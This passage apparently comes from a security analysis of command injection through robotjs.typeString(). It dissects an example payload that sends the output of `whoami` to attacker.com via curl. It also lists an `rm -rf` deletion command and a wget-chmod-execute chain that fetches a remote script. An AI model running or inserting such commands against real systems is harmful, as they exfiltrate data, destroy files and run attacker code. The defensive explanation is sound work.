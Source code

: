 #### 4.2. Analysis of the Example Attack: `$(curl attacker.com/exfiltrate?data=$(whoami)) #`

Let's dissect the provided example attack string: `$(curl attacker.com/exfiltrate?data=$(whoami)) #`

*   **`$(...)` - Command Substitution:** In many shells (like Bash, sh, zsh), `$(...)` is used for command substitution. The command inside the parentheses is executed, and its output replaces the entire `$(...)` expression.
    *   **`whoami`:** This is a standard Unix command that outputs the current username.
    *   **`$(whoami)`:** This will execute the `whoami` command and its output (the username) will be substituted into the larger command.
*   **`curl attacker.com/exfiltrate?data=...`:**  `curl` is a command-line tool for transferring data with URLs. This part of the command attempts to make an HTTP GET request to `attacker.com/exfiltrate` with a query parameter `data`.
    *   **`attacker.com/exfiltrate`:** This is a placeholder for a server controlled by the attacker.
    *   **`?data=$(whoami)`:**  The `data` query parameter is set to the output of the `whoami` command (the username).
*   **`#` - Comment:** In many shells, `#` is used to start a comment. Anything after `#` on the same line is ignored by the shell. This is often used to "comment out" or neutralize any input that might follow the malicious command, potentially preventing errors or further actions.

**Execution Flow of the Example Attack:**

1.  **Input Injection:** The attacker injects the string `$(curl attacker.com/exfiltrate?data=$(whoami)) #` into an application field that uses `robotjs.typeString()`.
2.  **RobotJS Simulation:** `robotjs.typeString()` simulates typing this string, character by character, as keyboard input to the operating system.
3.  **OS Processing:** The operating system receives these simulated keystrokes. If the application in focus (or the system itself) is in a context where command interpretation is possible (e.g., a terminal window, or if the application itself processes commands), the OS will attempt to execute the injected command.
4.  **Command Execution:** The OS interprets `$(curl attacker.com/exfiltrate?data=$(whoami)) #` as a shell command.
    *   It first executes `whoami`, retrieves the username.
    *   Then, it executes `curl attacker.com/exfiltrate?data=<username>`, sending the username to the attacker's server.
    *   The `#` effectively comments out any subsequent input that might be processed.
5.  **Data Exfiltration:** The attacker's server at `attacker.com/exfiltrate` receives the HTTP request containing the username in the `data` parameter.

**Impact of the Example Attack:**

In this specific example, the immediate impact is **data exfiltration** of the username. However, the attacker could inject much more damaging commands, such as:

*   **Data Modification/Deletion:** `rm -rf /important/data` (deletes important data - *extremely dangerous*)
*   **System Compromise:** `wget attacker.com/malicious_script.sh && chmod +x malicious_script.sh && ./malicious_script.sh` (downloads and executes a malicious script, potentially leading to full system compromise).
*   **Denial of Service (DoS):**  Commands that consume excessive resources or crash the system.
*   **Lateral Movement:**  Commands to access other systems on the network if the compromised system has network access.
